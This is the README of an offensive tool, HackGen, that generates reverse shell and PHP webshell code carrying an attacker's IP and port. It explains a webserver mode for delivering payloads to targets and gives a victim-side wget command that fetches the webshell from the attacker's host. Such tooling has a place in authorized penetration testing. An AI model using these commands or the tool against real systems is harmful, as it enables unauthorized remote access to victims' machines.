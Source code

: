 # HackGen
> Pretty much msfvenom, but I hate Metasploit >:(

## Installation:
- Clone this repo to whatever directory you want.
  Note: This repo uses submodules so use the command below to avoid headaches:
```
git clone --recurse-submodules https://github.com/owenCocjin/HackGen.git
```
- Change the path of the rshells.db database to the <b>ABSOLUTE</b> path of the install dir
- Optional: Link the "hackgen.py" script to somewhere in your path so it can be executed from anywhere!

## Usage:
> Use the `-h` flag for details on the usage.

This script was created to easily produce reverse shell codes with an attacker's IP & port in the script.
It can also urlencode or base64 encode the resulting script.
### Webserver:
One fun feature is that you can start hackgen as a webserver which makes it incredibly easy to get rshell code onto a target.
Once the hackgen command us run with the `-w` flag, it will start a webserver on port 8000. When a GET request is sent to the server, it will reply with just the rshell string. Because the server will return the same rhsell code no matter the requested endpoint, a simple way to save to a file is to use `wget` to get a specific page from the server. Because all "pages" return the same thing, wget will end up writing the retrieved rshell to the fetched page. For example, if we wanted to write a PHP webshell to file "webshell.php", on the attacker machine we would run the command:
```
hackgen.py <your ip> <your port> -wf php -n webshell
```
And on the victim machine, we would run:
```
wget http://<your ip>:8000/webshell.php
```
This will save the PHP webshell to the attacker machine under the filename: "webshell.php"

---

## To-Do:
- Allow default IP/port by adding a config specifying which network device to get IP from